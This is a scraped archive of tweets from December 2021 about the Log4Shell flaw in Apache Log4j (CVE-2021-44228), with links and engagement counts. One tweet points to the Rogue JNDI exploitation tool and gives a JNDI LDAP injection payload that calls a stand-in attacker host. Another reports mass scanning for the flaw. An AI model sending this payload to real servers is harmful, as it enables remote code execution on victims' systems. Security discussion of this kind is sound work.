 https://t.co/12u0753Oma https://t.co/CQmrsahNqw
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td><img src="pictures/d15f5b56cf4fd1c57350e754af68f7789a409a573a633ff8dde27463f48860f0.jpg" alt="d15f5b56cf4fd1c57350e754af68f7789a409a573a633ff8dde27463f48860f0.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# artsploit
**https://twitter.com/artsploit/status/1469245422153699329 _at 2021-12-10, 09:59:40_**
<blockquote>
log2j RCE (CVE-2021-44228): You may find my Rogue JNDI tool useful for exploitation. Just run the server and send ${jndi:ldap://attacker.com/o=tomcat} payload to the victim https://t.co/XS3bkt9QjX
</blockquote>

* https://github.com/veracode-research/rogue-jndi

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>484</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1469225135504650240 _at 2021-12-10, 08:39:03_**
<blockquote>
Mass scanning activity detected from multiple hosts checking for servers using Apache Log4j (Java logging library) vulnerable to remote code execution (https://t.co/GgksMUlf94).
